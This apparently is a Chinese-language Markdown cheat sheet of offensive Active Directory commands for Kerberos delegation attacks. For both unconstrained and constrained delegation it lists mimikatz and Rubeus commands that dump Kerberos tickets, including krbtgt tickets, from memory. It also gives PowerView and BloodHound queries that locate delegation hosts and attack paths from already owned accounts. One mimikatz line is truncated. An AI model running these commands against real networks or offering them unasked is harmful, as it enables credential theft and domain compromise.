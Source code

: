 
## 3.非约束委派

### 获取票据

~~~ABAP
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export

Rubeus dump /service:krbtgt /nowrap

Rubeus dump /luid:0xdeadbeef /nowrap
~~~



### 查找非约束委派主机

~~~ABAP
Get-NetComputer -Unconstrained

Get-DomainComputer -Unconstrained -Properties DnsHostName

MATCH (c:Computer {unconstraineddelegation:true}) RETURN c

MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p
~~~



## 4.约束委派

### 获取票据

~~~ABAP
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /

Rubeus dump /service:krbtgt /nowrap

Rubeus dump /luid:0xdeadbeef /nowrap
~~~



### 查找约束委派主机

~~~ABAP
Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo

MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p

MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p
~~~
